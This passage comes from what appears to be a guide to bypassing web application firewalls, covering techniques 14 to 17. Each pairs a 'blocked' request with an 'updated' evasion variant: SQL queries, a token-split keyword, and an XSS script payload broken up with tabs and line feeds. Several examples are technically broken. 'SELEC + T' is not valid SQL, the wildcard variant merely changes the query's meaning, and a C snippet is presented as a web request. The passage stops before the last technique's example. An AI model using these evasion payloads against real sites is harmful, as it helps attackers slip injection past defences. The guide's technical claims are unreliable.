 ## 14. Wildcard Obfuscation

**How to do it:**  
Use wildcard characters in a way that confuses the WAF's pattern matching.

**Blocked original request:**
```bash
SELECT * FROM users WHERE username='admin';
```

**Updated with wildcard obfuscation:**
```bash
SELECT * FROM users WHERE username LIKE 'adm%';
```

## 15. Token Breaker Technique

**How to do it:**  
Insert characters or elements that break the tokens the WAF uses to identify malicious patterns.

**Blocked original request:**
```bash
SELECT * FROM users WHERE id=1;
```

**Updated with token breaking:**
```bash
SELEC + T * FROM users WHERE id=1;
```

## 16. Tabs and Line Feed Technique

**How to do it:**  
Insert tabs (`\t`) or line feeds (`\n`) within payloads to disrupt the pattern matching of the WAF.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with tabs and line feeds:**
```bash
<script>\n\talert('XSS')</script>
```

## 17. Uninitialized Variable Technique

**How to do it:**  
Use uninitialized or rarely used variables in the payload to confuse the WAF’s detection algorithms.

**Blocked original request:**
```bash
int x = 1; return x;
```

